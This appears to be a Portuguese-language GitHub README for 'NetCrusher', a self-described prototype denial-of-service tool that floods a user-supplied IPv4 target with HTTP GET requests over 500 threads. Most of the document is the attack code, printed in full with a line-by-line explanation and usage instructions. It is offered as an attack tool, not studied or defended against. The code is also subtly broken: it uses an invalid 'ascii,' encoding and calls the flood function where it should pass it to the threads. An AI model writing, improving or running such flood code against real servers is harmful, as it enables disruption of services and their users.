 # Net-crusher

## Introdução 

- NetCrusher é um código de ataque Dos simples, sendo utilizado como base para uma ferramenta que negará Serviço na Camada de Aplicação. Esse Código realiza um ataque de Flood HTTP,
um tipo de ataque de negação de serviço (DoS), enviando um grande número de solicitações HTTP GET para um servidor alvo.

- Vale ressaltar que isso é um protótipo. Ele será a base da base pro que será a ferramenta final.

- Código 
<div style="display: inline_block"><br>
   <img align="center" alt="foto-teste" src="https://media.discordapp.net/attachments/1216774284471570473/1240432389948444794/image.png?ex=66468a2f&is=664538af&hm=34c7eab336f50442ef581240a3d67d6bfc93185067781cd424e8d93164530978&=&format=webp&quality=lossless"
</div> 

  >Imagem do código na shell
  * Este código em Python parece ser uma implementação de um ataque de negação de serviço (DoS) do tipo HTTP flood. Vou explicar cada parte do código:
Importações:

```python
      import socket
      import threading
```



- Estas bibliotecas são importadas para permitir o uso de sockets (conexões de rede) e threading (execução de múltiplas threads simultaneamente).
Entrada do usuário:

```python
      target = str(input("entre com o iPv4: "))
      port = 80
```


- Aqui, o código solicita ao usuário que insira o endereço IPv4 do alvo. A porta é definida como 80, que é a porta padrão para tráfego HTTP.

  * Função
 
```python
      http_flood:
      def http_flood():
    while True:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target, port))
        s.sendto(("GET / HTTP/1.1 \r\n").encode('ascii,'), (target,port))
        s.sendto(("Host: 192.168.56.2" +"\r\n\r\n").encode('ascii'), (target,port))
        print("Mandando Solicitação")
```

- Esta função é responsável por criar uma conexão TCP com o servidor de destino na porta 80 e enviar repetidamente uma solicitação HTTP GET. A função está em um loop infinito (while True), o que significa que continuará enviando solicitações até que o programa seja interrompido.

```python
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) #Cria um socket TCP.
    s.connect((target, port)) #Conecta ao alvo na porta especificada.
    s.sendto(("GET / HTTP/1.1 \r\n").encode('ascii,'), (target, port)) #Envia uma solicitação HTTP GET.
    s.sendto(("Host: 192.168.56.2" + "\r\n\r\n").encode('ascii'), (target, port)) #Envia o cabeçalho Host.
    print("Mandando Solicitação") #Imprime uma mensagem indicando que a solicitação foi enviada.
```


- Criação e inicialização das threads:

```python
  for i in range(500):
  thread = threading.Thread(target=http_flood())
  thread.start()
  Aqui, o código cria 500 threads, cada uma executando a função http_flood.

```





- instalação: 
  * git clone:
```python
import socket
import threading

target = str(input("entre com o iPv4: "))
port = 80

def http_flood():
    while True:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target, port))
        s.sendto(("GET / HTTP/1.1 \r\n").encode('ascii,'), (target, port))
        s.sendto(("Host: 192.168.56.2" + "\r\n\r\n").encode('ascii'), (target, port))
        print("Mandando Solicitação")


for i in range(500):
    thread = threading.Thread(target=http_flood())
    thread.start()
```

- COMO USAR:
  * python3 NetCrusher

- DEMONSTRAÇÃO: 

<div style="display: inline_block"><br>
  <img align="center" alt="gif" src="https://cdn.discordapp.com/attachments/1141095761069752330/1240441549414993961/Video_sem_titulo.gif?ex=664692b7&is=66454137&hm=10154f0bd484bc5a1fa1c2cff432144ae1f3253edabce67f9e651bff61460b63&"
</div> 

  >GIF do ataque
